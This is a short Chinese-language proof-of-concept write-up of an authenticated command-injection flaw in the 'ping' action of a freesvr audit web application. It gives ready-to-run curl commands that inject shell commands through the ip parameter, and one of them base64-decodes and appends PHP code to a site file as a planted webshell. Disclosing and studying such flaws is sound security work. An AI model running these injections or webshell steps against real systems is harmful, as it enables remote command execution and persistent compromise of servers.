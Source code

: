 在`/opt/freesvr/web/htdocs/freesvr/audit/controller/c_admin_detail.class.php`文件中有如下函数

![](./image.png)

使用curl进行利用：

`curl -i -k https://192.168.32.129/admin.php?controller=admin_detail&action=ping&ip=192.168.32.128%20-c%203%20;%20touch%20/tmp/1%20%23`

通过get_request从url中获取到ip参数，而后直接拼接到命令行中，随后通过exec函数执行。访问该路径需要身份认证，但经过测试最低权限的运维用户即可利用

![](./image2.png)


也可以在php文件内植入webshell：此处在`/opt/freesvr/web/htdocs/freesvr/audit/include/language_cn.php`内写入`phpinfo();`
```shell
curl -ik https://192.168.32.129/admin.php?controller=admin_detail&action=ping&ip=192.168.32.128%20-c%203%20;%20echo%20Cjw/cGhwCnBocGluZm8oKTsKPz4=%20|%20base64%20-d%20|%20tee%20-a%20/opt/freesvr/web/htdocs/freesvr/audit/include/language_cn.php%20%23

```
 
![](image-1.png)
 
![](image-2.png)

![alt text](image-3.png)
